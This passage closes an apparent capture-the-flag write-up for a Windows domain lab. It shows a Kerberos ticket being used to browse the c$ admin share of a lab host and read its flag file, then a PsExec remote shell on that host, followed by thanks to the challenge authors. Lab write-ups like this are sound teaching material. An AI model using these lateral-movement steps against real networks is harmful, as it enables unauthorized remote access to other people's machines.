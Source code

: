 We can now use this ticket to access the target machine, `app1.oposec.local`:

```powershell
PS C:\> ls \\app1.oposec.local\c$

    Directory: \\app1.oposec.local\c$

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         6/22/2021   9:21 PM                Files
d-----          3/8/2021   3:00 PM                inetpub
d-----          3/8/2021   2:56 PM                Packages
d-----          2/3/2021   4:36 AM                PerfLogs
d-r---         6/26/2021  12:11 AM                Program Files
d-----         7/16/2016   2:23 PM                Program Files (x86)
d-r---          6/9/2021   2:22 PM                Users
d-r---         6/20/2021  11:48 AM                Windows
d-----         5/13/2021   5:17 AM                WindowsAzure
-a----         6/10/2021   6:10 PM            156 flag.txt

PS C:\> cat '\\app1.oposec.local\c$\flag.txt'
flag{you_was_high_classed} Congratulations! Ping (@)armysick with both flags!
```

And we got ourselves the final flag:

> flag{you_was_high_classed} Congratulations! 

We could also use `PSExec` from Sysinternals to have remote control over the machine:

```powershell
PS C:\Tools\SysinternalsSuite> .\PsExec.exe \\app1.oposec.local cmd

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows>hostname
APP1
```

## Wrap-Up

This was one of the most demanding challenges I ever put myself into, mostly due to (1) being Windows which is a platform with little to no focus on CTFs and other challenges, (2) the dependency on the Windows ecosystem and its tools -- making it hard to impossible to complete using Linux, and (3) the large number of tools and scripts required.

The resolution of this challenges would not be possible without the help of [@darkcookie](https://twitter.com/Pedro_SEC_R), kudos! Also, a thank you note to [@Moreira](https://twitter.com/moreiranf) for providing me some of the screenshots used in this writeup.

Lastly, thanks [@ArmyS1ck]( https://twitter.com/ArmyS1ck) for setting up the challenge!